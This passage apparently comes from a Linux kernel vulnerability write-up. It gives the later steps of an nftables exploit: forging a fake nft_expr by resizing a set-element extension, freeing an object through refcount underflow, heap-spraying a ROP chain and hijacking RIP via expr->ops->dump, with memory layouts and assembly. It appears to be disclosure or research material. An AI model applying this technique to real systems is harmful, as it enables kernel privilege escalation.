   ```
                        0x0000000000000000      0x0000000000000000      
  nft_set_elem_expr->   0x0000000000000010      0xffffffff82b265a0 <- expr[0]->ops
  expr[0]->data->       0xffff8881023e6e20      0xffff88810252fc00 <- NFT_SET_EXT_OBJREF 
  NFT_SET_EXT_USERDATA  0xffffffff8104d475      0xffffffffffffff00
                		0xffffffffffffffff      0xffffffffffffffff
                      0xffffffffffffffff      0xffffffffffffffff
                      0xffffffffffffffff      0xffffffffffffffff
  ```
- 7. Delete all the set elements we created in step 2. Now we change the `size` of `NFT_SET_EXT_EXPRESSIONS` of a set element which we created in step 5. We will change the `size` from `0x10` to `0xffffffd0`. Now we get a fake `nft_expr` expr[1]. The `ops` of the fake `nft_expr` is `NFT_SET_EXT_OBJREF` and the `data` of the fake `nft_expr` is the first 8 bytes of `nft_userdata`
  ```
  struct nft_userdata {
	u8			len;
	unsigned char		data[];
	};
  ``` 
- 8. Call the previously mentioned primitive 0x400 times, finally making `object X->use = 0`
- 9. Delete `object X`.
- 10. Spray some heap with ROP gadget to get the heap of `object X` back. This will also fill the `ops` of the fake `nft_expr`.
- 11. Dump all the set elements we create in step 5. Finally we will jmp to our ROP gadget.
  
  ```
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```
### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`, and it will be the start of `NFT_SET_EXT_OBJREF` when it comes to the fake `nft_expr`:
